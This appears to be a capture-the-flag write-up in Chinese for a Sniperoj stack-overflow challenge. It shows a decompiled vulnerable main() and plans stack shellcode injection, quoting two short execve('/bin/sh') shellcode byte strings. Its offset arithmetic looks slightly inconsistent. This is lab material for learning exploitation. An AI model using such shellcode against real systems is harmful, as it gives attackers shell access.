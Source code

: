 ## 解答
主程序
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+0h] [rbp-10h]
  __int64 v5; // [rsp+8h] [rbp-8h]

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", &buf, 0LL, 0LL);
  puts("Now give me your answer : ");
  read(0, &buf, 0x40uLL);
  return 0;
}
```
想棧上輸入shellcode，然後跳轉到shellcode執行
但是這題有空間大小限制，0x40個字節，還要減去buf距離eip的空間0x16，再減去0x8的返回地址，只剩下0x20的大小。
這裏用到一段x64上只有23個字節的shellcode
```
https://www.exploit-db.com/exploits/36858/
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```
還找到一個x86上的19個字節的shellcode，但是在這裏好像只能用上面這個
```
https://www.exploit-db.com/exploits/40131
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"
```